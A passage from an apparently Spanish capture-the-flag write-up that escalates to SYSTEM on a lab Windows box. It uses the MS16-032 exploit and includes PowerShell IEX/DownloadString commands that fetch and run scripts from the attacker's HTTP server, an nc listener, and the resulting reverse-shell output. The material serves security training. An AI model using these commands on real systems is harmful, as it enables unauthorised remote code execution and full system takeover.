 Editamos el archivo descargado agregando al final la siguiente linea (cambiar el valor de **lhost** por nuestra IP de atacante):

```bash
Invoke-MS16032 -Command "IEX(New-Object Net.WebClient).DownloadString('http://<lhost>/PS.ps1')"
```

Nos compartimos un servidor HTTP con python y procedemos a ejecutar el siguiente comando para la obtención del archivo; así mismo, nos ponemos en escucha por el puerto 443:

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [07/Sep/2021 00:05:48] "GET /Invoke-MS16032.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [07/Sep/2021 00:05:59] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-MS16032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!

PS C:\Users\kostas\Desktop>
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49206
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
nt authority\system
PS C:\Users\kostas\Desktop>
```

Ya somos administradores del sistema y podemos visualizar la flags *root.txt*.

